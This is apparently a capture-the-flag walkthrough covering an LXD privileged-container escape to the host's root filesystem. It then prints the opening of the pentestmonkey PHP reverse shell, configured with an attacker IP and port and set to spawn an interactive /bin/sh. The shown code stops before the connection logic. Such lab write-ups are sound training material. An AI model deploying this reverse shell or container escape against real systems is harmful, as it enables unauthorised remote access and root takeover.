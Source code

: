 Answer: alpine

## Task 7

What flag do we set to the container so that it has root privileges on the host system?

Answer: security.privileged=true

## Task 8

If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?

Answer: /mnt/root

## Task 9

Submit user flag

using [this](https://github.com/pentestmonkey/php-reverse-shell) PHP Reverse Shell(First result on Google when doing this).

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.82';
$port = 8008;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
```